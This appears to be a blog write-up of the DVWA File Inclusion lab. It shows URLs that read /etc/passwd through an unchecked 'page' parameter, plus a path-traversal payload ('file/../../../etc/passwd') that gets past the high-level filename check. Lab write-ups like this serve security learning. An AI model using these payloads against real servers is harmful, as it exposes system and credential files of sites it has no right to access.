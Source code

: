 ```yaml
---
title: "File Inclusion - DVWA"
description: ""
summary: "Read the /etc/passwd file using File Inclusion vulnerability."
date: 2022-08-17
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["writeups", "challenge", "DVWA", "File Inclusion"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
weight: 4
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
# cover:
#     image: "<image path/url>" # image path/url
#     alt: "<alt text>" # alt text
#     caption: "<text>" # display caption under cover
#     relative: false # when using page bundles set this to true
#     hidden: true # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```



### **Security level: low**

In url there is GET parameter `page` used for including file.

url:`http://192.168.170.131/vulnerabilities/fi/?page=include.php`

By changing this file location we can read file on server.

url:`http://192.168.170.131/vulnerabilities/fi/?page=/etc/passwd`

<img width="658" alt="image" src="https://user-images.githubusercontent.com/79740895/185410392-bf62fdae-c6c7-4f90-a934-191ffadcf471.png">


_Also work for medium._

### **Security level: high**

we have one condition that file name should start with `file`.

<img width="343" alt="image" src="https://user-images.githubusercontent.com/79740895/185414371-f1a0cb44-0688-40ab-ae49-1c623e19744f.png">

we can bypass that with payload:`file/../../../../../../etc/passwd` path traversal.

<img width="456" alt="image" src="https://user-images.githubusercontent.com/79740895/185414731-fda51955-9d13-4b60-893a-f700f29021eb.png">

Happy Hacking
